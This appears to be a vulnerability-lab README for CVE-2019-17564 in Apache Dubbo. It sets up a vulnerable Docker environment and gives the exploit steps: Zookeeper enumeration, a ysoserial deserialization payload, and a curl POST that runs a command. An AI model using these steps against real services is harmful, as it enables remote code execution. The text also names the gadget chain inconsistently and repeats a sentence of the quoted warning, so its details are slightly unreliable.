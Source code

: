 # Aapche Dubbo Unsafe Java Deserialization (CVE-2019-17564)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Dubbo is a high-performance, java based open source RPC framework.

Apache Dubbo supports different protocols, and its HTTP protocol handler is a wrapper of Spring Framework's `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`.

In the documentation of Spring Framework, the following description of `HttpInvokerServiceExporter` is available and is not recommended.

A security warning of Spring Framework shows that an unsafe Java deserialization is exist in the `HttpInvokerServiceExporter`, which could lead to a RCE vulnerability:

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code As a consequence, do not expose HTTP invoker endpoints to untrusted As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

This vulnerability affects Apache Dubbo 2.7.4 and earlier, after 2.7.5 Dubbo replace `HttpInvokerServiceExporter` with `com.googlecode.jsonrpc4j.JsonRpcServer`.

Reference links.

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/ HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## Vulnerable Environment

Start an Apache Dubbo 2.7.3 Provider by executing the following command.

```
docker-compose up -d
```

After the service is started, browser ``http://your-ip:8080`` and the server will return an empty 500 error page by default.

## Exploit

It is important to know the RPC interface name before leveraging this vulnerability.

Vulhub is exposing the port 8080 and port 2181, where 2181 is the port of Zookeeper. Download [Zookeeper](https://zookeeper.apache.org/) and use the script **zkCli** to connect to the unauthenticated Zookeeper server:

```
./zkCli -server target-ip:2181
```

After connecting, it is come with an interactive console, where you can `ls` all nodes, including Dubbo-related configuration.

![](1.png)

Get the RPC interface named `org.vulhub.api.CalcService`. Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a `CommonsCollections6` payload, then send it to `http://your-ip:8080/org.vulhub.api.CalcService` as POST body.

```
java -jar ysoserial.jar CommonsBeanutils6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

Entering the container, you can see that `touch /tmp/success` has been executed successfully.

![](3.png)
